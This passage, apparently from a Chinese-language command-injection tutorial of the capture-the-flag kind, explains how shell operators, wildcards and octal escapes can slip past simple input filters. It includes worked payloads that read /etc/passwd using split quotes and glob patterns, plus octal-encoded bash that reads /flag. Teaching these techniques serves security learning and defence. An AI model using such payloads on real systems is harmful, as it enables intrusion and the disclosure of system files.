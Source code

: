 
## Level 2 - 命令执行绕过（操作符 & 通配符）

Shell 操作符和通配符可用于构造命令并绕过简单的过滤器。

**操作符:**

* `&&`: 仅当第一个命令成功时执行第二个命令。
* `||`: 仅当第一个命令失败时执行第二个命令。
* `&`: 在后台运行第一个命令，立即执行第二个命令（并行执行）。
* `;`: 在第一个命令完成后执行第二个命令（无论成功/失败）。
* `>`, `<`, `>>`, `<<`: 重定向操作符（输入/输出）。
* `` ` `` (反引号): 命令替换；执行内部的命令，并用输出替换反引号。
* `$()`: 命令替换（比反引号更推荐）。
* `|` (管道符): 将第一个命令的标准输出发送到第二个命令的标准输入。

**通配符 & 特殊字符:**

* `''`/`""`: 定义空字符串或保护含有空格/特殊字符的字符串。
* `*`: 匹配零个或多个字符。
* `?`: 匹配恰好一个字符。
* `[]`: 匹配方括号内的任意单个字符。
* `[^]`: 匹配*不在*方括号内的任意单个字符。
* `{}`: 花括号扩展（例如，`{cat,ls}` 扩展为 `cat ls`）。在某些上下文中可用于命令执行，如 ` {cat,/etc/passwd} `。
* `!`: 历史扩展或取反（取决于上下文）。
* `\`: 转义字符；移除下一个字符的特殊含义。

**绕过示例:**

```bash
# 使用 '' 和 ? 绕过对 'cat' 和 'passwd' 的引用/过滤
system("c''at /e't'c/pass?d");

# 使用 ? 通配符绕过对 '/bin/cat' 的过滤
system("/???/?at /e't'c/pass?d");

# 使用 * 通配符绕过过滤
system("/???/?at /e't'c/*ss*");
```

---

## Level 3 - 无字符 & 通配符绕过

在不使用某些字符或严重依赖通配符的情况下执行命令的方法。

* **八进制绕过 (Bash):** 使用 `$'xxx'` 形式，其中 `xxx` 是字符的八进制表示。
    ```bash
    # 示例: cat /flag -> $'\\143\\141\\164\\040\\057\\146\\154\\141\\147'
    bash -c $'\\143\\141\\164\\040\\057\\146\\154\\141\\147'
    ```

